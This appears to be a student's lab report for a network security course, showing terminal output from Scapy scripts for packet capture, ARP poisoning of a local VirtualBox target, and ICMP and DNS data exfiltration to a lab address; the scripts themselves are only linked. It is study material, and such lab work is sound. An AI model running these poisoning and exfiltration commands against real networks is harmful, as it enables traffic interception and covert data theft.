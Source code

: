 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

[Script](./Scripts/ping.py)

```sh
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```

🌞 **`tcp_cap.py`**

[Script](./Scripts/tcp_cap.py)

```bash
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 **`dns_cap.py`**

[Script](./Scripts/dns_cap.py)

```bash
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Tue Nov 28 18:52:33 CET 2023
;; MSG SIZE  rcvd: 85
```

En même temps : 

```bash
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```

🌞 **`dns_lookup.py`**

[Script](./Scripts/dns_lookup.py)

```bash
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

[Script](./Scripts/arp_poisoning.py)

Depuis la cible :

```bash
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

Depuis l'attaquant :

```bash
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.56.5/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

Depuis la cible :

```bash
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

[Script](./Scripts/icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```

[Capture du ping.](./icmp_exfr_send.pcapng)

Contenu du ping en ascii : 
''NaE@À¨8À¨8ÿt

🌞 **`icmp_exf_receive.py`**

[Script](./Scripts/icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```

```bash
$ sudo python3 icmp_exf_rcv.py
t
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

[Script](./Scripts/dns_exfiltration_send.py)

```bash
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 testing_this_test_to_test_my_test_oki
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

[Capture des requêtes DNS](./dns_exfiltration_test.pcapng)
